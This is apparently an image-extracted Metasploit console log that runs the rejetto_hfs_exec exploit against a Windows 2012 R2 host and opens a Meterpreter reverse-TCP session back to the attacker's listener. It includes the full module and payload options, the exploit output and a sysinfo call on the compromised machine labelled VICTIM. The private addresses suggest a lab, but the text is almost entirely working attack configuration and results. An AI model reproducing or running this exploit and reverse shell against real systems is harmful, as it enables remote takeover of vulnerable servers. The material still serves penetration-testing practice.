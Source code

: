 ```
Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.5.18.130      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.19.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.19.3:4444 
[*] Using URL: http://0.0.0.0:8080/izL4b5x
[*] Local IP: http://10.10.19.3:8080/izL4b5x
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /izL4b5x
[*] Sending stage (175174 bytes) to 10.5.18.130
[*] Meterpreter session 1 opened (10.10.19.3:4444 -> 10.5.18.130:49268) at 2023-07-18 12:44:18 +0530
[!] Tried to delete %TEMP%\aLCeKBEgLEo.vbs, unknown result
[*] Server stopped.

meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```